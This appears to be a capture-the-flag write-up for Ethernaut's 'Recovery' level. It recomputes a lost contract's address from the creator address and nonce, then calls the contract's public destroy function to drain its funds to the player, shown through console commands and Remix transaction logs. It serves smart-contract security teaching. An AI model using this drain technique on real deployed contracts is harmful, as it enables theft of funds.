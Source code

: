 ## Ethernaut-solution

### 17. Recovery

*Important

//is gonna give you the smart contract address that you're looking for so 

//this is all computed deterministically 
```
address = rightmost_20_bytes(keccak(RLP(sender address, nonce)))
```

//nonce creates or generated this simple token contract and we're passing it to the rlp encoding function 
```
>contract.address
'0x0A4a5914d6a3F59863639EdE0b3d8f5B6E8c9473'
```

//secret addressを抜粋してみる
```
>web3.utils.soliditySha3("0xd6","0x94","0x0A4a5914d6a3F59863639EdE0b3d8f5B6E8c9473","0x01") //rlp,rlp, sender address, nonce
'0xa01cfea9bdb7e3e4b516448a200e3409bef9910e02454a6a70f04bd8ac6acc4e' //40digits(20bits) is our contracts address from right side 
```
```
this is the simpleToken address (secret address)

200e3409bef9910e02454a6a70f04bd8ac6acc4e
```

//secret address (EtherScanで確認済み)
```
0x200e3409bef9910e02454A6a70f04bD8aC6ACC4E
```

*anything beginning with “0x” simply means the value is in hexadecimal format. 


//encode a function call to the destroy function. Its going to pass my players address"_to"
```
>data = web3.eth.abi.encodeFunctionCall ({
	name: 'destroy',
	type: 'function',
	inputs: [{
		type: 'address',
		name: '_to'
	}]
}, [player]);

'0x00f55d9d000000000000000000000000f6ea8e869c68362ec2fa1b2159fe459d6d8f30f5'
```

//playerが自分になったことを確認
```
>player
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```
```
>await web3.eth.sendTransaction ({
	to: "", //<insert the address of the lost contract>
	from: player,
	data: data
})//Deploy on Remix 

[block:10931562 txIndex:2]from: 0xF6e...f30F5to: RecoveryAttack.(constructor)value: 0 weidata: 0x608...f0033logs: 0hash: 0x632...16e03
```

//copy the secret address into attack 
```
[block:10931570 txIndex:8]from: 0xF6e...f30F5to: RecoveryAttack.attack(address) 0x51F...D4AEAvalue: 0 weidata: 0xd01...acc4elogs: 0hash: 0x34d...e45b1
```

//check secret address all funds into my wallet!!